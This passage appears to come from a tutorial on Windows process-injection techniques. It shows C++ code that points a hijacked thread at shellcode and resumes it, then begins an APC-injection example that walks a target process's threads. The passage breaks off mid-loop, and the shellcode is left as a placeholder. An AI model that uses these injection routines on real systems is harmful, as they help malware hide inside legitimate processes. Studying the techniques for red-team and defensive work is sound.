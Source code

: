 ```c++
    // point thread context at shellcode
    ctx.Rip = (DWORD64)hMemory;
    SetThreadContext(hThread, &ctx);

    // resume the thread
    ResumeThread(hThread);

    // wait on thread
    WaitForSingleObject(hThread, INFINITE);

    // close handle
    CloseHandle(hThread);
}
```

A similar variant of thread hijacking can be performed where you enumerate all of the running threads in a process, suspend one of them, change its context and then resume it.  This isn't generally recommended though, because you'll break whatever functionality that thread was performing and potentially crash the process.

## Asynchronous Procedure Calls

This technique is similar to above but instead of creating a new thread, we queue an [asynchronous procedure call](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) on an existing thread.  When the thread enters an 'alertable' state (e.g. when it calls an API like Sleep or WaitForSingleObject), it will run the shellcode that the APC points to.  Queuing an APC on a thread requires that we have a handle to it, and for that we need a thread ID.  To obtain a valid thread ID from a process, we must 'thread walk' it.
```c++
#include <Windows.h>
#include <tlhelp32.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "...";

    // convert the provided argument to an integer
    auto pid = atoi(argv[1]);

    DWORD threadId = 0;

    // create thread snapshot
    auto hSnapshot = CreateToolhelp32Snapshot(
        TH32CS_SNAPTHREAD,
        0
    );

    THREADENTRY32 te = { 0 };
    te.dwSize = sizeof(te);

    // walk the threads
    Thread32First(hSnapshot, &te);

    do {
        if (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te.th32OwnerProcessID)) {
            if (te.th32OwnerProcessID == pid) {
                // use the first thread we find
                threadId = te.th32ThreadID;
                break;
            }
        }
        te.dwSize = sizeof(te);
```
